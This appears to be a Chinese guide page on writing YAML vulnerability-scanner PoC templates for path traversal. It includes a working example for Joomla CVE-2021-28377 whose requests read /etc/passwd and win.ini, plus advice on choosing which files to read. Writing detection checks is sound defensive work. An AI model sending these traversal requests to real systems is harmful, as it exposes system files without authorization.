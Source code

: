 # path traversal （目录穿越/任意文件读取）

```yaml
name: poc-yaml-joomla-cve-2021-28377-fileread
manual: true
transport: http
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../etc/passwd
		expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
	r1:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../Windows/win.ini
		expression: response.status == 200 && response.body.bcontains(b"for 16-bit app support")
expression: r0() || r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

在这类漏洞中，必然至少有一个rule会去访问我们所需要读取的文件，那么

- 对于`读取文件`的rule中
    1. 关于读取的文件
        - 需要按照漏洞的利用方式去读取相关的文件
        - 如果目标系统中存在着某些通用的配置文件，那么首先推荐去读取这些web系统内的文件，尽可能地减少发包量，例如可以读取web.config等的文件
        - 其次我们再去考虑系统中的文件，这部分内容建议参考现在我们给出的poc模版相关内容。同时需要注意的是，读取系统文件时，我们需要充分考虑目标web系统能够被架设在哪些系统上，对于可行的系统都要写出相应的rule去进行匹配
    2. 关于匹配的内容
        - 这部分直接依据所读取的文件写出对应的匹配语句即可。但是需要注意的是，除了固有文件内容的匹配之外，如果页面内仍有其他特征内容，这里也是非常推荐去增加匹配这些内容
    3. 补充说明
       - 读取系统文件时，考虑到信息泄露的可能性，比如你的读取的response会记录在某个可以被访问的日志文件中，就会有一定的损害，所以尽量读取一些不会暴露信息的文件，比如`/etc/resolv.conf`等，实在找不到，再选择`/etc/passwd`

其他rule的内容需要按照漏洞的具体内容按需编写

## 模板

[目录穿越/文件读取](/guide/yaml/yaml_poc_template?id=文件读取类)
